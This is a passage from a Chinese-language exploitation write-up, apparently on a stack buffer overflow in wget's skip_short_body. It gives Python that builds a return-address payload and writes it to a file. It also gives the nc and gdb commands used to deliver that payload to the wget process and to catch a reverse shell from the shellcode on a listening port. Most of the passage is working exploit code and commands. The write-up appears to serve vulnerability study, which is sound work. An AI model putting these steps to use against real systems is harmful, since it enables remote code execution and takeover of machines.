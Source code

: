 ```python
payload += p64(0x7fffffffd140)
payload += "\n0\n"

with open('zzz','wb') as f:
        f.write(payload)
```

此处传入的返回地址可能是不准确的，调试一下

```python
#A窗口 监听端口
nc -nvlp 6789 < zzz

#B窗口 调试
set args 127.0.0.1:6789
b skip_short_body
b *0x000000000041f18d
```

此时写的地址变成了0xfd190，所以需要把上面的payload的返回地址改成0x190。



⚠️需要纠正两个点

利用过程主要分为两步，触发漏洞和反弹端口

(1)触发漏洞：窗口A通过nc开启一个端口6788，B进行调试，连接到这个端口，触发漏洞，执行shellcode。

(2)反弹shell，shellcode的作用是反弹shell，反弹的端口是在生成木马的时候指定的，此处设置的是6789，C窗口监听6789端口。

代码如下

```python
#A
nc -nvlp 6788 < zzz

#B
gdb wget
set args 127.0.0.1:6788
b *0x000000000041f18d
r

#c
nc -nvlp 6789
```



执行完shellcode之后，显示如下

![upload successful](/images/pasted-282.png)
